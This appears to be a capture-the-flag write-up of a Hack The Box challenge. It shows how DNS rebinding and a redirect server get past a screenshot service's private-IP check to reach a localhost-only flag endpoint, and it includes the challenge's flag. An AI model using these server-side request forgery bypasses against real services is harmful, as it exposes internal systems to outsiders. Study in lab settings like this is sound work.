

# Cached View 

This Hack The Box challenge is focused on the DNS Rebinding attack. This challenge is a simple flask web application that takes screenshots of the URLs inserted in the input box as shown in the picture below and stores them in the server and also in a database. These screenshots are then shown to the user.




The web application has protections to prevent requests of resources from `localhost` that can be circumvented using the aforementioned DNS Rebinding attack.

## Walk Through
There are two important endpoints in this app. The first one is `/cache` which accepts a JSON object over an HTTP POST method and will fetch for a JSON attribute called "url". If that attribute is present, it will call the `cache_web` function which will then take a screenshot of the provided URL using a headless web browser (selenium with Firefox's geckodriver) and return the image.

```python
@api.route('/cache', methods=['POST'])
def cache():
    if not request.is_json or 'url' not in request.json:
        return abort(400)
    
    return cache_web(request.json['url'])
```

The `cache_web` function is as follows:

```python
def cache_web(url):
    scheme = urlparse(url).scheme
    domain = urlparse(url).hostname

    if not domain or not scheme:
        return flash(f'Malformed url {url}', 'danger')
        
    if scheme not in ['http', 'https']:
        return flash('Invalid scheme', 'danger')

    def ip2long(ip_addr):
        return struct.unpack('!L', socket.inet_aton(ip_addr))[0]
    
    def is_inner_ipaddress(ip):
        ip = ip2long(ip)
        return ip2long('127.0.0.0') >> 24 == ip >> 24 or \
                ip2long('10.0.0.0') >> 24 == ip >> 24 or \
                ip2long('172.16.0.0') >> 20 == ip >> 20 or \
                ip2long('192.168.0.0') >> 16 == ip >> 16 or \
                ip2long('0.0.0.0') >> 24 == ip >> 24
    
    if is_inner_ipaddress(socket.gethostbyname(domain)):
        return flash('IP not allowed', 'danger')
    
    return serve_screenshot_from(url, domain)
```

This function fetches the URL's scheme and domain, demanding the scheme to be either `http` or `https`. Then, it fetches the IP address corresponding to the given domain using the `socket.gethostbyname` function and verifies if the retrieved IP address is blacklisted. With blacklisted, we mean IP addresses starting from 127, 10, 172.16, 192.168, and 0. All of those represent local IP addresses. Finally, the `serve_screenshot_from` function is called, which instantiates the headless web browser and visits the requested URL, taking a screenshot, saving it locally, and saving its record in a database:

```python
def serve_screenshot_from(url, domain, width=1000, min_height=400, wait_time=10):
    from selenium import webdriver
    from selenium.webdriver.firefox.options import Options
    from selenium.webdriver.support.ui import WebDriverWait

    options = Options()

    options.add_argument('--headless')
    options.add_argument('--no-sandbox')
    options.add_argument('--ignore-certificate-errors')
    options.add_argument('--disable-dev-shm-usage')
    options.add_argument('--disable-infobars')
    options.add_argument('--disable-background-networking')
    options.add_argument('--disable-default-apps')
    options.add_argument('--disable-extensions')
    options.add_argument('--disable-gpu')
    options.add_argument('--disable-sync')
    options.add_argument('--disable-translate')
    options.add_argument('--hide-scrollbars')
    options.add_argument('--metrics-recording-only')
    options.add_argument('--no-first-run')
    options.add_argument('--safebrowsing-disable-auto-update')
    options.add_argument('--media-cache-size=1')
    options.add_argument('--disk-cache-size=1')
    options.add_argument('--user-agent=MiniMakelaris/1.0')

    options.preferences.update(
        {
            'javascript.enabled': False
        }
    )

    driver = webdriver.Firefox(
        executable_path='geckodriver',
        options=options,
        service_log_path='/tmp/geckodriver.log',
    )

    driver.set_page_load_timeout(wait_time)
    driver.implicitly_wait(wait_time)

    driver.set_window_position(0, 0)
    driver.set_window_size(width, min_height)

    driver.get(url)

    WebDriverWait(driver, wait_time).until(lambda r: r.execute_script('return document.readyState') == 'complete')

    filename = f'{generate(14)}.png'

    driver.save_screenshot(f'application/static/screenshots/{filename}')

    driver.service.process.send_signal(signal.SIGTERM)
    driver.quit()

    cache.new(domain, filename)

    return flash(f'Successfully cached {domain}', 'success', domain=domain, filename=filename)
```

The second important endpoint is `/flag` which, as the name implies, returns the flag that is located in the `flag.png` image:

```python
@web.route('/flag')
@is_from_localhost
def flag():
    return send_file('flag.png')
```

Nonetheless, there is a check that refuses to serve this image unless the request is from `127.0.0.1` and there is not a referrer attribute in the request. This check is located in the `is_from_localhost` function, as shown here:

```python
def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1' or request.referrer:
            return abort(403)
        return func(*args, **kwargs)
    return check_ip
```

In a first simple attempt, we might get tempted to try using the `http://127.0.0.1/flag` URL. Unfortunately, this won't work because the `/cache` endpoint will block all internal IPs, including `127.0.0.1`, of course. 

It happens that there is a vulnerability in this lab related to the commonly known TOCTOU acronym. TOCTOU stands for Time of Check Time of Use. What happens, is that we have a race condition vulnerability between the time the `/cache` endpoint checks that the given URL doesn't resolve to an internal address (`is_inner_ipaddress` function) and the time when the selenium web driver visits the given URL and takes a screenshot (`driver.get(url)` line in `serve_screenshot_from` function). If we make the first check pass, the resolved IP address must not be local, however, the second time the IP is resolved it needs to be local so that the headless browser gives a screenshot of the flag. And it's here where the DNS Rebinding happens. We have many options to exploit this vulnerability: set up a local DNS server that does the same thing as in the DNS Rebinding Seed Lab by first mapping the domain to an external IP and then to the `127.0.0.1` IP address or we can use an already existing DNS Rebinding service that alternates between two IP addresses. For this we used this [tool](https://lock.cmpxchg8b.com/rebinder.html) with the following configuration:


As the picture mentioned, we enter two ip addresses and the given hostname in the last input box will resolve randomly to each of the addresses specified with a very low TTL (Time to Live). The two selected addresses were, of course, `127.0.0.1` for the reasons mentioned and `142.250.178.174` which is google's IP address and can be fetched using the following command:

```
~ 14s ❯ host google.com
google.com has address 142.250.178.174
google.com has IPv6 address 2a00:1450:4003:811::200e
google.com mail is handled by 10 smtp.google.com.
```

To check if this is really working we can get the IP address of the `7f000001.8efab2ae.rbndr.us` domain several times to see if it's changing according to the provided values:

```
~ ❯ host 7f000001.8efab2ae.rbndr.us
7f000001.8efab2ae.rbndr.us has address 142.250.178.174
~ ❯ host 7f000001.8efab2ae.rbndr.us
7f000001.8efab2ae.rbndr.us has address 142.250.178.174
~ ❯ host 7f000001.8efab2ae.rbndr.us
7f000001.8efab2ae.rbndr.us has address 127.0.0.1
~ ❯ host 7f000001.8efab2ae.rbndr.us
7f000001.8efab2ae.rbndr.us has address 127.0.0.1
~ ❯ host 7f000001.8efab2ae.rbndr.us
7f000001.8efab2ae.rbndr.us has address 142.250.178.174
```

Indeed that's what happens. With this, we are now able to get our flag. It's a trial and error situation that might have three different outcomes:
- The first check resolves to an internal address, meaning the **attack fails**.
- Both checks resolve to an external address and the screenshot doesn't retrieve our flag, meaning the **attack fails**.
- The first check resolves to an external address and the second one to `127.0.0.1`, meaning the **attack succeeds**!

So, if we insert `http://7f000001.8efab2ae.rbndr.us/flag` in the input box, the `7f000001.8efab2ae.rbndr.us` will resolve either to `127.0.0.1` or to `142.250.178.174`. And if we are lucky, and the perfect conditions take place, our attack will be successful. After some attempts, we finally get the desired flag: `HTB{reb1nd1ng_y0ur_dns_r3s0lv3r_0n3_qu3ry_4t_4_t1m3}`.


## Other Possible Attacks

The DNS Rebinding attack has proven to be a solution to solve this challenge. But there are also other ways to solve it that don't include DNS Rebinding. The first one is to deploy a very simple website over the internet that only needs to contain the following HTML:

```html
<!DOCTYPE>
<html>
  <body>
    
  </body>
</html>
```

When visiting this website, the selenium web driver would take a screenshot of the flag itself, due to the source given in the `` tag. Note the `referrerpolicy="no-referrer"` attribute. Without this, the `/cache` endpoint would return an error because the request's referrer would be the website's hostname. Using this attribute the referrer is nonexistent.

The other solution would be to set up a web server located in a remote machine that would simply redirect all the requests to `http://127.0.0.1/flag`. This works, because as the machine is remote, we ensure its hostname is resolved to an external IP address. With this, we pass the first check. When requesting the `/flag` resource we would be simply visiting this external website and only after it, the headless web browser would receive the HTTP redirect, getting the desired flag. This would also be printed on the challenge's main page as in all the other solutions presented. A python sample code to achieve this would be as follows:

```python
import http.server

class RedirectHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
      self.send_response(301)
      self.send_header("location", "http://127.0.0.1/flag")
      self.end_headers()

def run(server_class=http.server.HTTPServer, handler_class=RedirectHandler):
  server_address = ('', 8080)
  httpd = server_class(server_address, handler_class)
  httpd.serve_forever()

if __name__ == '__main__':
  run()
```